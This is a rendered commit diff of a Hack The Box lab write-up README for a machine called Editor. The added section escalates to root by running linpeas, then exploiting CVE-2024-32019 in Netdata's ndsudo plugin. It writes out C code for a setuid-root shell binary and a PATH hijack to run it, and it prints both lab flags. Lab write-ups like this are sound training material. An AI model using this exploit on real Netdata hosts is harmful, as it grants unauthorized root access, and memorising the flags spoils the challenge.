

Before and after one commit to dylanramos/htb-writeups, a Markdown page: Editor/Readme.md, the part around the change. Shown at 81% size. GitHub-like rendering; pictures changed too: Editor/image-4.png (added); blank space fills up the shorter version.

Commit message:
Find second flag

````diff
--- a/Editor/Readme.md
+++ b/Editor/Readme.md
@@ -64,3 +64,67 @@ cat user.txt
 ```
 
 **First flag** : `2311b6cf44220a01278a6a499e490cac`
+
+### Finding the second flag
+
+Now, I can check for vulnerabilities by using `linpeas.sh` on the target.
+
+```bash
+scp linpeas.sh oliver@10.10.11.80:/home/oliver
+```
+
+```bash
+./linpeas.sh
+```
+
+After running the command `id`, I can see that I am part of the group `netdata`. So I will probably have to deal with Netdata to escalate my privileges.
+
+![alt text](image-4.png)
+
+After linpeas has finished, I found out that the plugin `ndsudo` is vulnerable to a privilege escalation : https://nvd.nist.gov/vuln/detail/CVE-2024-32019
+
+To exploit this vulnerability, I can create `nvme.c` that will allow me to set my uid to 0 (root) and copy the program on the target.
+
+```bash
+nano nvme.c
+```
+
+```bash
+#include <stdio.h>
+#include <stdlib.h>
+#include <unistd.h>
+
+int main() {
+    setuid(0);
+    system("/bin/bash");
+    return 0;
+}
+```
+
+```bash
+gcc nvme.c -o nvme
+```
+
+```bash
+scp nvme oliver@10.10.11.80:/home/oliver
+```
+
+Now, on the target I have to export the `PATH` for the `ndsudo` plugin to find my program.
+
+```bash
+export PATH=/home/oliver:$PATH
+```
+
+Then, I can run the `ndsudo` command to get a root shell.
+
+```bash
+/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
+```
+
+Finally, I can read the root flag.
+
+```bash
+cat /root/root.txt
+```
+
+**Second flag** : `686494d2bb72cc50730b353e9bea2edb`
````
